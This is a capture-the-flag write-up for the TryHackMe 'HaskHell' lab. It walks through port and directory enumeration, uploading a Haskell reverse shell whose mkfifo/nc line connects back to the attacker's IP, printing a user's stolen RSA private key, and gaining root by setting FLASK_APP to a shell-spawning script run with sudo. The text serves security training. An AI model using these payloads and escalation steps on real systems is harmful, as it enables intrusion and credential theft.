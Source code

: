 # 44 - HaskHell (flask env variable for priv esc)

Room Link --> [https://tryhackme.com/room/haskhell](https://tryhackme.com/room/haskhell)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.57.56 -p- -T5

PORT     STATE SERVICE       REASON
22/tcp   open  ssh           syn-ack
5001/tcp open  commplex-link syn-ack
```
{% endcode %}

Navigating to `http://10.10.57.56:5001` .

<figure><img src=".gitbook/assets/image (311).png" alt=""><figcaption></figcaption></figure>

#### FFUF enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u http://10.10.57.56:5001/FUZZ -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -fc 403,400 -t 500 -ic

/submit
```
{% endcode %}

So i googled and got a Haskell rev shell from the Github [link](https://github.com/passthehashbrowns/Haskell-Reverse-Shell/blob/master/reverse-shell.hs), i uploaded it, nc was listening and BOOM! i got shell.

<figure><img src=".gitbook/assets/image (312).png" alt=""><figcaption></figcaption></figure>

But the shell kept timing out after like 20 seconds :(

Then i used [revShells](https://www.revshells.com/) to generate a Haskell shell:

{% code overflow="wrap" lineNumbers="true" %}
```bash
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.18.88.214 1234 >/tmp/f"
```
{% endcode %}

Uploaded it and got a stable shell.

<figure><img src=".gitbook/assets/image (313).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to Proff user

So i ran `linPEAS.sh` on the box, and i found proff private ssh keys :)

<figure><img src=".gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" lineNumbers="true" %}
```
flask@haskhell:~$ cat /home/prof/.ssh/id_rsa
cat /home/prof/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
b68lAFDjSSJaVlVzPi+waotyP2ccVJDjXkwK0KIm6RsACIOhM9GtI2wyZ6vOg4ss
Nb+7UY60iOkcOAWP09Omzjc2q7hcE6CuV6f7+iObamfGlZ4QQ5IvUj0etStDD6iU
WQX4vYewYqUz8bedccFvpC6uP2FGvDONYXrLWWua7wlwSgOqeXXxkG7fxVqYY2++
6ZVm8RE7TpPNxsQNDwpnxOiwTxGMgCrIMxgRVwIDAQABAoIBAQCTLXbf+wQXvtrq
XmaImQSKRUiuepjJeXLdqz1hUpo7t3lKTEqXfAQRM9PG5GCgHtFs9NwheCtGAOob
wSsR3TTTci0JIP4CQs4+nez96DNl+6IUmhawcDfrtlGwwZ/JsvPDYujnyziN+KTr
7ykGoRxL3tHq9Qja4posKzaUEGAjTz8NwrhzB6xatsmcWBV0fFoWzpS/xWzW3i7F
gAoYxc6+4s5bKHsJima2Aj5F3XtHfipkMdBvbl+sjGllgiQn/oEjYMIX5wc7+se2
o7FERO2oy3I5jUOlULsr9BwQpNFA2Qenc4Wc7ghb0LfCVaUs/RHQ7IQ4F3yp/G67
54oLue6hAoGBAPCe+WsnOXzhwQ9WXglhfztDR1lcwSFMeHZpcxYUVqmVEi2ZMLll
B67SCri9lHHyvBtrH7YmZO5Q9UcGXdLCZGmbkJUdX2bjqV0zwwx1qOiVY8LPnZSJ
LJN+0p1dRHsO3n4vTHO8mVuiM5THi6pcgzSTggIhS+e1ks7nlQKiBuD/AoGBAOE2
kwAMtvI03JlkjvOHsN5IhMbOXP0zaRSrKZArDCcqDojDL/AQltQkkLtQPdUPJgdY
3gOkUJ2BCHNlIsAtUjrTj+T76N512rO2sSidOEXRDCc+g/QwdgENiq/w9JroeWFc
g9qM3f2cl/EkjxRgiyuTfK6mbzcuMSveX4LfCXepAoGAd2MZc+4ZWvoUNUzwCY2D
eF8QVqlr9d6gYng9rvXWbfvV8iPxBfu3zSjQQwtlTQhYBu6m5FS2fXxTxrLE+J6U
/cU+/o19WWqaDPFy1IrIjOYagn1KvXk2UdR6IbQ2FyywfkFvmHk6Sjn3h9leVd/j
BcIunmnw5H214s0KpSzJZvcCgYA5Ca9VNeMnmIe+OZ+Swezjfw5Ro3YdkmWsnGTc
ZGqhiJ9Bt91uOWVZuSEGr53ZVgrVlYY0+eqI2WMghp60eUX4LBinb71cihCnrz9S
/+5+kCE51zVoJNXeEmXrhWUNzo7fP6UNNtwKHRzGL/IkwQa+NI5BVVmZahN9/sXF
yWMGcQKBgQDheyI7eKTDMsrEXwMUpl5aiwWPKJ0gY/2hS0WO3XGQtx6HBwg6jJKw
MMn8PNqYKF3DWex59PYiy5ZL1pUG2Y+iadGfIbStSZzN4nItF5+yC42Q2wlhtwgt
i4MU8bepL/GTMgaiR8RmU2qY7wRxfK2Yd+8+GDuzLPEoS7ONNjLhNA==
-----END RSA PRIVATE KEY-----
```
{% endcode %}

<figure><img src=".gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

#### exploiting Flask

`sudo -l` - prof can run a cmd as root.

<figure><img src=".gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>

But when we run it:&#x20;

<figure><img src=".gitbook/assets/image (317).png" alt=""><figcaption></figcaption></figure>

The `FLASK_APP` is also an environment variable just like `SHELL, TERM etc..` .

we will create a python file then add it as a value for the `FLASK_APP` env variable value.

{% code overflow="wrap" lineNumbers="true" %}
```bash
prof@haskhell:~$ echo 'import os; os.system("/bin/bash")' > shell.py
prof@haskhell:~$ ls
__pycache__  shell.py  user.txt
prof@haskhell:~$ chmod +x shell.py 
prof@haskhell:~$ ls
__pycache__  shell.py  user.txt
prof@haskhell:~$ export FLASK_APP=shell.py
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# id
uid=0(root) gid=0(root) groups=0(root)
root@haskhell:~# 

```
{% endcode %}

Done!


